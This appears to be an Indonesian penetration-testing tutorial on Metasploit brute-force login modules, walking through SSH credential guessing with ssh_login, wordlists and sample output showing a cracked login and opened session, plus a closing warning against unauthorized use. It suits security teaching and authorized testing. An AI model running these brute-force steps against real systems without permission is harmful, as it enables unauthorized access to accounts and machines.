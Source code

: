# Modul Bruteforce Login di Metasploit

Metasploit Framework memiliki banyak modul auxiliary yang mendukung bruteforce login terhadap berbagai layanan seperti `SSH`, `FTP`, `HTTP`, `SMB`, `dll`. Modul ini berguna untuk menguji kekuatan kredensial yang digunakan oleh target dan sering dipakai dalam fase credential access saat penetration testing.

## A. Modul-Modul Umum Bruteforce di Metasploit

| Layanan	| Modul Bruteforce |
|:--:|:--:|
| SSH	| `auxiliary/scanner/ssh/ssh_login` |
| FTP	| `auxiliary/scanner/ftp/ftp_login` |
| Telnet | `auxiliary/scanner/telnet/telnet_login` |
| SMB	| `auxiliary/scanner/smb/smb_login` |
| HTTP | `auxiliary/scanner/http/http_login` |

## B. Bruteforce SSH dengan `ssh_login`

**Langkah-langkah:**

1. Gunakan Modul:

   ```
   use auxiliary/scanner/ssh/ssh_login
   ```

2. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

3. Setting Target dan Payload:

   ```
   set RHOSTS <IP TARGET>
   ser RPORT 22
   set USER_FILE /usr/share/wordlists/user.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set BRUTEFORCE_SPEED  5
   set THREADS 1
   set VERBOSE true
   run
   ```

   Kalu berhasil output-nya akan sepertin ini:

   ```
   [-] 192.168.1.27:22 - Failed: 'root:'
   [-] 192.168.1.27:22 - Failed: 'debian:admin'
   [-] 192.168.1.27:22 - Failed: 'debian:root'
   [+] 192.168.1.27:22 - Success: 'debian:debian' 'uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)       Linux debian 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64 GNU/Linux '
   [*] SSH session 1 opened (192.168.1.42:38455 -> 192.168.1.27:22) at 2025-05-09 16:16:12 +0700
   ```

   Hasil Brute Force akan otomatis disimpan dalam database Metasploit jika aktif:

   ```
   creds
   ```

   Disini ada sesi Meterpreter yang terbuka yakni sesi dengan ID `1`, kita bisa masuk ke sesi Meterpreter-nya dengan cara:

   ```
   session -i 1
   ```

   Dan selamat kamu sudah masuk kedalam sistem terget:

   ```
   msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
   [*] Starting interaction with 1...

   pwd
   /home/debian
   ```

   Disini kamu bisa melakukan banyak perintah dan banyak hal.

   **Catatan Opsi Penting**

   | Opsi | Deskripsi |
   |:--:|:--:|
   | `RHOSTS` | IP target  |
   | `RPORT` | Port SSH |
   | `USERNAME` | Gunakan satu username (jika diketahui)  |
   | `PASSWORD` | Gunakan satu password (jika diketahui)  |
   | `USER_FILE` | File Wordlist yang berisi username  |
   | `PASS_FILE` | File Wordlist yang berisi password  |
   | `BRUTEFORCE_SPEED` | Kecepatan proses Brute Force |
   | `THREADS`	| Jumlah thread paralel untuk mempercepat proses  |
   | `VERBOSE` | Menampilkan output lebih detail (debugging)

## Tips Tambahan

- Gunakan wordlist yang relevan (hindari terlalu besar agar tidak lambat).
- Gunakan `services` untuk melihat layanan yang bisa ditargetkan:

  ```
  services -p 22 -u
  ```

- Bisa digabung dengan hasil `Nmap` yang sudah diimpor ke Metasploit.

> Jangan gunakan teknik  Brute Force ke sistem yang bukan milikmu atau tanpa izin.

